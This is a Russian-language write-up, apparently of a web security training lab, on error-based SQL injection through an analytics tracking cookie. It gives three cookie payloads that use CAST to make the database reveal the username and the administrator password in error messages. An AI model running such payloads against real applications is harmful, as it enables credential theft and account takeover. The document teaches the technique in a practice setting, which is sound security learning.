




# Лабораторная работа: SQL-инъекция, основанная на видимых ошибках.

В этой лабораторной работе обнаружена уязвимость SQL-инъекции. Приложение использует отслеживающий cookie для аналитики и выполняет SQL-запрос, содержащий значение отправленного cookie. Результаты SQL-запроса не возвращаются.

В базе данных есть другая таблица с названием users, со столбцами usernameи password. Чтобы решить лабораторную работу, найдите способ получить доступ к паролю пользователя administrator, а затем войдите в его учетную запись.

Аналитика:

1) Перейдем на любой продукт и попробуем вызвать ошибку для пониамния, существует ли уязвимость...



---

Мы убедились в том, что можем получить довольно подробное описание ошибки, но есть метод получить сам пароль администратора, рассмотрим его далее.
CAST - функция приведения типов, позволяет преобразовать один тип данных в другой.

Делаем запрос:

```sql
Cookie: TrackingId=smGr2plBdKc0Xtm8' AND CAST((SELECT 1) AS int)--
```



---

Для начала проверим, существует ли пользователь с учетными данными `administrator`:

Запрос:

```sql
Cookie: TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```



Следующий шаг: Попытаться получить пароль

Запрос:

```sql
Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```


